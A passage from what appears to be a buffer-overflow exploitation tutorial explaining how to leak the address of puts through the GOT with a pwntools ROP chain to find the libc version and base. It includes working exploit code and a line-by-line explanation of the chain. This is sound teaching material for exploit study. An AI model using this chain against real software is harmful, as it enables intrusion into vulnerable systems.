 In this step you don't need to execute anything as everything will be found by pwntools during the execution.

### 3- Finding LIBC library

Now is time to find which version of the libc library is being used. To do so we are going to leak the address in memory of the function `puts`and then we are going to search in which library version the puts version is in that address.

```
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
    print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
    p.interactive()
```

To do so, the most important line of the executed code is:

```
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

This will send some bytes util overwriting the RIP is possible: `OFFSET`.
Then, it will set the address of the gadget `POP_RDI` so the next address (`FUNC_GOT`) will be saved in the RDI registry. This is because we want to call puts passing it the address of the `PUTS_GOT`as the address in memory of puts function is saved in the address pointing by `PUTS_GOT`.
After that, `PUTS_PLT` will be called (with `PUTS_GOT` inside the RDI) so puts will read the content inside `PUTS_GOT` (the address of puts function in memory) and will print it out.
Finally, main function is called again so we can exploit the overflow again.

This way we have tricked puts function to print out the address in memory of the function puts (which is inside libc library). Now that we have that address we can search which libc version is being used.
